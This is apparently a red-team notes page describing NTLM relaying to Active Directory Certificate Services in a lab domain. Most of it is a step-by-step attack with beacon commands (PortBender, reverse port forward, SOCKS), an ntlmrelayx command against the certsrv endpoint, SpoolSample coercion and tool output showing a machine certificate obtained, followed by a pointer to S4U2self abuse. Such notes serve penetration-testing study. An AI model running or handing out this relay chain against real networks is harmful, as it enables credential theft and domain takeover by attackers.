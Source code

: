 # NTLM Relaying to ADCS
AD CS services support HTTP enrolment methods via `http[s]://<host>/certsrv`, and by default supports `NTLM` and `Negotiate` authentication methods.
 ![](/Images/Pasted%20image%2020220316233059.png)

By default, these endpoints can be misused for an NTLM relaying attack.
The idea is:
1. Domain controller authenticates to an attacker-controller location
2. Relay that request to the CA and obtain a certificate for that DC
3. Use it to obtain a TGT.

⚠️ You cannot relay authentication back to the original machine. 
If the CA is also on the DC you cannot request a certificate for dc-1.
Instead, we'll use WKSTN3 as an example.

Setup:
* 10.10.5.10 is DC-1
* 10.10.5.20 is SRV1
* 10.10.5.30 is WKSTN3

As SYSTEM on SRV1:
1. Use PortBender to capture incoming traffic on port 445 and redirect it to port 8445.
2. Start a reverse port forward to forward port 8445 to the CS server on port 445.
3.  Start a SOCKS proxy for ntlmrelayx to send traffic back into the network.
    ```beacon
    beacon> PortBender redirect 445 8445
    [+] Launching PortBender module using reflective DLL injection
    
    Initializing PortBender in redirector mode
    Configuring redirection of connections targeting 445/TCP to 8445/TCP

    beacon> rportfwd 8445 127.0.0.1 445
    [+] started reverse port forward on 8445 to 127.0.0.1:445

    beacon> socks 1080
    [+] started SOCKS4a server on: 1080
    ```

4. Start ntlmrelayx over proxychains and target dc-1:
    ```sh
    proxychains ntlmrelayx.py -t http://10.10.5.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
    ```

5. Force a connection from WKSTN3 to SRV1.
    ```beacon
    beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.5.30 10.10.5.20

    [+] Converted DLL to shellcode
    [+] Executing RDI
    [+] Calling exported function
    ```

6. We see the connection in the Beacon running PortBender.
    ```beacon
    [+] received output:
    New connection from 10.10.5.30:53666 to 10.10.5.20:445
    Disconnect from 10.10.5.30:53666 to 10.10.5.20:445
    ```

7. We receive a base64 encoded ticket.
    ```sh
    [*] SMBD-Thread-4: Connection from EDU/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.5.10
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://10.10.5.10 as EDU/WKSTN-3$ SUCCEED
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    ...  OK
    [*] Authenticating against http://10.10.5.10 as EDU/WKSTN-3$ SUCCEED
    [*] SMBD-Thread-4: Connection from EDU/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.5.10
    [*] Authenticating against http://10.10.5.10 as EDU/WKSTN-3$ SUCCEED
    [*] Authenticating against http://10.10.5.10 as EDU/WKSTN-3$ SUCCEED
    [*] Authenticating against http://10.10.5.10 as EDU/WKSTN-3$ SUCCEED
    [*] GOT CERTIFICATE! ID 5
    [*] Base64 certificate of user WKSTN-3$:
    MBCQ4Y[...snip...]Mndq==
    ```

8. Use [[S4U2self Abuse#Obtain a TGS to itself]] to obtain a TGS for any service on the machine, on behalf of any user. 


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```